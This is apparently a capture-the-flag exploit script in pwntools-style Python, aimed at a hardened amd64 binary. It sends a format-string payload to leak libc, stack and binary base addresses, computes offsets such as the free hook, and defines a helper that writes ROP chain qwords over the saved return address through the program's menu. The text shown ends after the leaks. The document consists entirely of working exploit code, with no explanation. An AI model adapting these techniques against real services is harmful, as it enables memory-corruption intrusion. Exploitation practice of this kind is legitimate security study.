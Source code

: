 ```py
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def add_rop(qword, rop_offset):
    io.recvuntil('exit\n')
    io.send('1')

    io.recvuntil('Size: ')
    io.send('8')

    io.recvuntil("Data: ")
    io.send('G')

    io.recvuntil('exit\n')
    io.send('2')

    io.recvuntil('Index: ')
    io.send('1')

    io.recvuntil("Pointer: ")
    io.send(str(returnAddr + (rop_offset * 0x8)))

    io.recvuntil("Content: ")
    io.send(p64(qword))

    io.success("wrote " + hex(qword) + " to " + hex(returnAddr + (rop_offset * 0x8)))

io = start()

pause()

formatstr = "%25$p%16$p%17$p "
chunkSize = 0x400

printfPayload = flat({
    0: formatstr,
    # 16: p64(chunkSize),
    })


io.recvuntil("Format: ")
print(printfPayload)
io.sendline(printfPayload)

s = io.recvuntil("\n").decode()[:-1]
s = s.split('0x')
s[3] = s[3].split(' ')[0]

libcBase = int(s[1], 16) - 0x21b97
stackLeak = int(s[2], 16)
binBase = int(s[3], 16) - 0x11b3
ptrArr = binBase + 0x202080 + 0x8
symKill = binBase + 0x000010b4
freeHook = libcBase + 0x3ed8e8

io.success("libc base addr: " + hex(libcBase))
io.success("rbp stack leak: " + hex(stackLeak))
io.success("bin base addr: " + hex(binBase))

returnAddr = stackLeak + 0x8
```